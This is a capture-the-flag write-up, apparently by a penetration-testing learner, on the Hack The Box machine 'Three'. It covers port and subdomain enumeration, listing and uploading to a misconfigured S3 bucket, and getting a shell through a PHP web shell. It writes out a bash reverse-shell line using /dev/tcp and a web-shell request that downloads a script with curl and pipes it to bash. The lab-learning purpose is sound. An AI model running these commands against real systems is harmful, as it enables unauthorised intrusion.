 # Sequel

![](Misc/three_pwnd.PNG)

This is my sixth machine when learning the basics of penetration testing. Tags included in this machine are:

- Linux

## <ins>**Questions**

* [Questions 1-3](Misc/questions_1.PNG)
* [Questions 4-6](Misc/questions_2.PNG)
* [Questions 7-9](Misc/questions_3.PNG)

## <ins>**Web server enumeration**

For this machine you need to do port scanning, enumerate the web server and the subdomain, interact with the AWS services and finally get the flag by web shells and reverse shells.

#### **Nmap**

![](Misc/nmap.PNG)

A couple of notes about the flags. 

~~~
sudo nmap -SCV -p- -T4 -Pn --open -O <ip address>
~~~

- **-sC** runs scripts for additional info
- **-V** increases the verbosity level, causing Nmap to print more information about the scan in progress
- **-p-** scan the whole range (excluding zero)
- **T4** is how fast and accurate the port scan is. T0 is very slow and T5 is very fast
- **-Pn** tells Nmap to skip the ping test and simply scan every target host provided.
- **--open** shows hosts that have open ports, and only show the open ports for those. Here, “open ports” are any ports that have the possibility of being open, which includes open, open|filtered, and unfiltered.
- **-O** operating system discovery
- ip address is the target that we are scanning with nmap

As a result we found the open ports on this machine. On port 80 we notice the version of Apache and a reference to the name of the web page. We may need this information as we progress with the machine.

#### **Gobuster**

Gobuster is a tool used to brute-force URIs including directories and files as well as DNS subdomains. Let us see if we can get some information out with this tool.

~~~
gobuster dir -u <ip address> -w /usr/share/wordlists/wfuzz/general/big.txt
~~~

![](Misc/gobuster.PNG)

Note that **dir** is a directory brute forcing mode. **-u** is the target url flag and **-w** is a wordlist of directory names. We are using a default wordlist found in **wfuzz**.

#### **Website**

Next we look at the ip address in the browser. We find the website and start looking for different tabs and such for ways to get more possibilities to hack the machine.

![](Misc/website.PNG)

![](Misc/subdomain.PNG)

In the contact information we find out the subdomain that the webpage has (thetoppers). With that information, we not only got the answer to the task, but we can also use that information to try enumerate the subdomain. First lets add the ip address and subdomain to the /etc/hosts/.

![](Misc/hosts.PNG)

Keep in mind that the ip address of thetoppers.htb changes because I didn't complete the whole machine in one sitting.

![](Misc/images.PNG)

Next we take a look to the /images that we found from the scan. Unfortunately there was no any useful information that we could use so let us proceed with the machine.

## <ins>**Subdomain enumeration**

Subdomain enumeration is the process of identifying all subdomains for a given domain. In this case we only get thetoppers.htb with the ip address but we are trying to find out if we can find more subdomains for that site. This technology is called **virtual hosting** or vhost for short. We use **gobuster** tool in this situation.

Note that **vhost** flag is for finding the subdomains, **--append-domain** is to append main domain from URL to words from wordlist. Otherwise the fully qualified domains need to be specified in the wordlist. **-w** is a wordlist that we are using.

Note that in the new version of Kali (or AWS I'm not 100% sure which one it is) the syntax is a little bit different to get the S3 with the vhost. Also keep that in mind that you need to install both the gobuster and seclist to use them in this following code.

~~~
gobuster vhost --append-domain -u <subdomain address> -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
~~~

![](Misc/vhost.PNG)

With the search we find out two results and the first one is the one we are looking for. In short S3 is AWS cloud service for storaging (https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html). The only problem is that it is commonly misconfigured and thus leading to security promblems. Now we add this subdomain (s3.thetoppers.htb) to the /etc/hosts next to the previous subdomain. 

## <ins>**AWS Services**

We can try to configure AWS with some data that has no sense in any way. That way we can get access to the AWS so that we can possibly get some valuable data out of the buckets.

#### **S3 buckets**

Now we should be able to interact with the list of s3 buckets that the service is holding. Let us see if we can list the s3 buckets with following command.

~~~
aws --endpoint-url=http://s3.thetoppers.htb s3 ls
~~~

![](Misc/aws_configure.PNG)

Okay so we got a bucket. Now we want to expand command and list the actual content(s) of the s3 bucket.

~~~
aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
~~~

![](Misc/aws_endpoint.PNG)


#### **Setting up the listeners**

Now we need some listeners in order to get web shells. Because the scripting language is php we use the same language for getting some data when we interact with the ip address.

![](Misc/php.PNG)

Now we want to copy that shell.php to the s3 bucket so we can issue some operating system commands and possibly get some data from the listener (shell.php). Let us try to use some commands in the browser.

![](Misc/id.PNG)

![](Misc/thetoppers.PNG)

Seems to work fine. Now let us use [revshells.com](https://www.revshells.com) to get reverse shell with the help of this website. We define the port (443) and the reverse method (Bash -i) we want to use.

Notice that before we can use it we have to see the tun0 address of our own (virtual) machine and use the address in the following command.

![](Misc/tun0.PNG)

~~~
echo 'sh -i >& /dev/tcp/<tun0 ip address>/<port> 0>&1' > shell.sh
~~~

Next we need to set up a netcat listener with the following command.

~~~
sudo nc -lvnp <port>

-l for listening mode
-v for verbose output
-n for no DNS resolutions
-p for specified port
~~~

![](Misc/listener.PNG)

Now we want to echo the contents of the reverse inside the single quatitation and we write it in the bash script named shell.sh in our case. 

![](Misc/shell.PNG)

## <ins>**Web shells & Reverse shells**

![](Misc/aws_endpoint_2.PNG)

After that we want to start a web server where we can write our script to. For that we use python3 script in the following way. The port we are using is 8080.

![](Misc/server.PNG)

Now we have a listener set up that catches our reverse shell and we also have server that is serving our reverse shell script. After this we head to the browser and issue a curl command to make a request to ip address over http and into a bash. That way it will reach out, grab the reverse shell script and reverse shell is going to send the shell to our netcat listener so that we can get the access to the machine. The culr looks like the following:

~~~
thetoppers.htb/shell.php?cmd=curl%2010.10.15.108:443/shell.sh|bash 

thetoppers.htb/shell.php?cmd=curl%20<tun0 ip address>:<port>/<name of the reverse shell script>|<output command> 
~~~

Now we return to the netcat listener and should be able to see the same output as we did on the browser. We can now put the linux commands to navigate and get some information.

As we can see I have tried some commands like id, whoami, ls, pwd. After that I've gone back in the directory structure and got the flag.txt. After that I read it with cat command and there we have the flag. Nice!

![](Misc/flag.PNG)

And there we have the flag. Now can submit it and move on to the next machine. Hurray!